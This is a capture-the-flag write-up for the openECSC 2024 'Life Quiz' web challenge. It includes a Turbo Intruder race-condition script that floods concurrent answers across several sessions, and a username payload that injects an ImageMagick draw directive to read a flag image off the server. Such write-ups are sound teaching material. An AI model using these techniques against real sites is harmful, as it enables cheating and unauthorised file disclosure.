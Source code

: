 # openECSC 2024 - Round 1

## [web] Life Quiz (33 solves)

Try out our quiz to win a incredible prize!

Site: [http://lifequiz.challs.open.ecsc2024.it](http://lifequiz.challs.open.ecsc2024.it)

Author: Stefano Alberto <@Xato>

## Overview

The application is a quiz platform, you need to answer all 15 questions right to get the final prize.

The right answer for a specific question is selected randomly between the 4 possible answers for every request.  

The final prize consists of an image of a trophy with the username of the winner.

Finally, the flag is stored as one of the prizes, written in the image stored in `/prizes/flag.jpg`.

## Race condition

The scoring system is vulnerable to race condition. We can submit multiple answers for the same question to get more tries and, on average, more than one pont for every question.

Indeed, the application uses two separated queries to update the score and then to increment the question id in the database.

Here's the vulnerable code

```php
// If the user has submitted an answer, check if it is correct
if (isset($_POST['answer'])) {
    $answer = $_POST['answer'];
    $correct_answer = $answers[array_rand($answers)];
    
    echo "<h3 class='mb-3'>Question $question_id</h3>";
    $question_id++;
    if ($answer === $correct_answer) {
        echo "<p>Correct!</p>";
        
        $sql = "UPDATE users SET points = points+1 WHERE id = '$user'";
        $conn->query($sql);
    } else {
        echo "<p>Incorrect!<br>The correct answer was: $correct_answer</p>";
    }
    
    if ($question_id > $QUESTION_N) {
        echo "<p>You answered all the questions!</p>";
        echo "<a class='btn btn-primary my-3' href='quiz.php'>Next</a><br>";
    } else {
        echo "<a class='btn btn-primary my-3' href='quiz.php'>Next question</a><br>";
    }
    
    $sql = "UPDATE users SET question_id = $question_id WHERE id = '$user'";
    $conn->query($sql);
    $conn->close();
    exit();
}
```

We can exploit the race condition using the Burp extension "Turbo Intruder" with this request

```http
POST /quiz.php HTTP/1.1
Host: lifequiz.challs.open.ecsc2024.it
Content-Length: 9
Origin: http://lifequiz.challs.open.ecsc2024.it
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=%s

answer=%s
```

And this script

```py
import time
import re

last = 0

def queueRequests(target, wordlists):

    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=100,
                           engine=Engine.BURP
                           )
                           
    sessions = ['312f7c67ffe2901eec3ba052554c21a2','07ac239c20a11383f5f7b80fcb9a4176','8986b0fce5445282aaebde9e23420bd3']
    sessions += ['878a297c6a7b164e1daf7c079a82b3d4', '31cf002193adfdc114ba9f9d9948284e','9a44ca0c8da706c662cf06237da883b4']
    
    answers = ['42', 'To+express+emotions', 'To+be+free', 'Yes', 'In+the+city']

    global last
    
    for i in range(20):
        ans_id = ((last) % 5) 
            
        for session in sessions:
            engine.queue(target.req, [session, answers[ans_id]], label=str(ans_id) ,gate='race' + str(i))
    
        engine.openGate('race' + str(i))

        time.sleep(1)

def handleResponse(req, interesting):
    table.add(req)
    
    if 'Correct' in req.response:
        req.label = 'Correct'

    global last
    
    m = re.search('Question (\\d+)', str(req.response))
    
    if (m):
        last = int(m.group(1))
```

Note that the script doesn't reuses the same session cookie to perform the concurrent requests.
This is due to the fact that php locks the session id to avoid concurrency issues, making the race condition impossible to exploit using a single session.

By submitting multiple answers to the same question, we get on average more than one point for every question.
By repeating this process we can obtain the required score and get the prize.

## Image inclusion

The prize image is generated with the following command

```php
$cmd = "convert -draw " . escapeshellarg("text 0,1219 \"$username\"") . " -pointsize 100 -gravity Center /trophy.jpg /prizes/$user.jpg &";
```

Using our username we can escape from the string and modify the `draw` parameter of the `convert` command.

By looking at the command line documentation of ImageMagick we find out that it's possible to include an image using the `image` keyword in the `draw` option.

We can include the image containing the flag by setting our username to the following payload, respecting the 36 character limitation.

`"image Src 0,0 0,0 "/prizes/flag.jpg`

Then, using the race condition, we can win the game and get the prize with the flag.
